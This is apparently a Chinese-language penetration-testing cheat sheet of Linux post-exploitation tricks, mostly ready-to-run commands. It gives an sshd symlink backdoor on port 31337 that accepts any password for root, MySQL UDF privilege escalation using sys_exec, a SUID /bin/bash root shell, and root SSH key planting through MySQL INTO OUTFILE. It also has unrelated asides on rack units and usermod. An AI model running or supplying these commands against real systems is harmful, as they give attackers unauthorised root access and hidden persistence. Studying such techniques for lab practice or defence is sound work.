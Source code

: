 - SSH后门

  ```
  ln -sf /usr/sbin/sshd /tmp/su;/tmp/su -oPort=31337
  执行完之后，任何一台机器ssh root@IP -p 31337 随便密码即可登录
  ```

- U是一种表示服务器外部尺寸的单位，是unit的缩略语，1U=4.445厘米

- usermod 

  ```
  -g<群组>：修改用户所属的群组；
  -G<群组>；修改用户所属的附加群组；
  修改群组使用附加：usermod -a -G root test
  ```

- Linux下MySQL的UDF提权例子：[https://uknowsec.cn/posts/uncategorized/Vulnhub渗透测试练习-Kioptrix-4.html](https://uknowsec.cn/posts/uncategorized/Vulnhub渗透测试练习-Kioptrix-4.html)

  ```
  sqlmap的动态链接库地址：/usr/local/Cellar/sqlmap/1.2.7/libexec/udf/mysql
  上传so到/usr/lib目录下
  use mysql;
  create function sys_exec returns integer soname 'lib_mysqludf_sys.so';
  select sys_exec('id > /tmp/out; chown john.john /tmp/out');
  ```

- 如果有权限，直接将bash二进制可执行文件赋予SUID位，然后进入Run bash in Privileged mode，否则仍然是当前用户权限的shell

  ```
  chmod u+s /bin/bash
  bash -p 
  whoami && id
  ```

- 如果有权限，直接写公钥至`/root/.ssh/authorized_keys`，同时注意`/etc/ssh/sshd_config`文件是否允许远程root登录。SSH利用私钥登录失败，首先考虑权限问题，.ssh文件夹700，authotized_keys文件600。

  ```
  mysql> select 'ssh-rsa AAAAB3NzaC.....' into outfile '/root/.ssh/authorized_keys';
  Query OK, 1 row affected (0.00 sec)

  # Authentication:
  PermitRootLogin yes
  ```

- SUID、SGID、SBIT

